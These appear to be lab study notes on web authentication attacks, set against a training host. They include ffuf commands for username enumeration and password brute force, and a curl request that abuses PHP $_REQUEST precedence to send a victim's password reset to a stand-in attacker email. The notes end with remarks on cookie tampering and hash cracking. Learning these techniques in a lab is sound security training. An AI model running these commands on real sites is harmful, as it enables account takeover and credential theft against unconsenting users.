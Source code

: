 **username enum**
if the application gives information on existence: "this account already exists"
you can brute force with a list and see which usernames you get
`ffuf -w /usr/share/wordlists/SecLists/Usernames/Names/names.txt -X POST -d "username=FUZZ&email=x&password=x&cpassword=x" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.91.163/customers/signup -mr "username already exists"
the `-mr` argument is the text on the page we are looking for to validate we've found a valid username.

**bruteforcing passwords, after fiding valid usernames**
`ffuf -w valid_usernames.txt:W1,/usr/share/wordlists/SecLists/Passwords/Common-Credentials/10-million-password-list-top-100.txt:W2 -X POST -d "username=W1&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.91.163/customers/login -fc 200`

**logical flaw**
Sometimes authentication processes contain logic flaws. A logic flaw is when the typical logical path of an application is either bypassed, circumvented or manipulated by a hacker. Logic flaws can exist in any area of a website.

exploiting the get/post params as interpreted by $\_REQUEST in php
`curl 'http://10.10.91.163/customers/reset?email=robert%40acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert&email=attacker@hacker.com'`
in the above the ?email gets ovewritten by the -d email= since the last one is POST

**cookie tampering**
Examining and editing the cookies set by the web server during your online session can have multiple outcomes, such as unauthenticated access, access to another user's account, or elevated privileges.

Sometimes cookie values can look like a long string of random characters; these are called hashes which are an irreversible representation of the original text.
md5, sha256/512, sha1
Even though the hash is irreversible, the same output is produced every time, which is helpful for us as services such as [https://crackstation.net/](https://crackstation.net/) keep databases of billions of hashes and their original strings.
Encoding is similar to hashing in that it creates what would seem to be a random string of text, but in fact, the encoding is reversible.
Encoding allows us to convert binary data into human-readable text that can be easily and safely transmitted over mediums that only support plain text ASCII characters.